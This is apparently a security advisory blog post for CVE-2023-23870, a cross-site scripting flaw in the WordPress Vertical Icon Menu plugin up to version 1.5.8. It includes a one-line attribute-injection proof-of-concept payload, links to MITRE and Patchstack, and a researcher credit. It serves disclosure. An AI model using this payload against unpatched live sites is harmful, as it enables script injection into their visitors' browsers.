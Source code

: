 ```yaml
---
layout: post
title: CVE-2023-23870 - Vertical Icon Menu Plugin <= 1.5.8 - Cross Site Scripting (XSS)
---
```


Description
============
Vertical Icon Menu Plugin <= 1.5.8 This could allow a malicious actor to inject malicious scripts, such as redirects, advertisements, and other HTML payloads into your website which will be executed when guests visit your site.

Proof Of Concept
============
Payload

~~~
" onfocus=alert(/XSS/) autofocus="
~~~

References
============ 
  * [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-23870](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-23870)
  * [Patchstack](https://patchstack.com/database/vulnerability/wpdevart-vertical-menu/wordpress-responsive-vertical-icon-menu-plugin-1-5-8-cross-site-scripting-xss)



[Rio Darmawan](https://patchstack.com/database/researcher/0f0ce3de-fbab-4348-9729-a5ef92c74b3e)
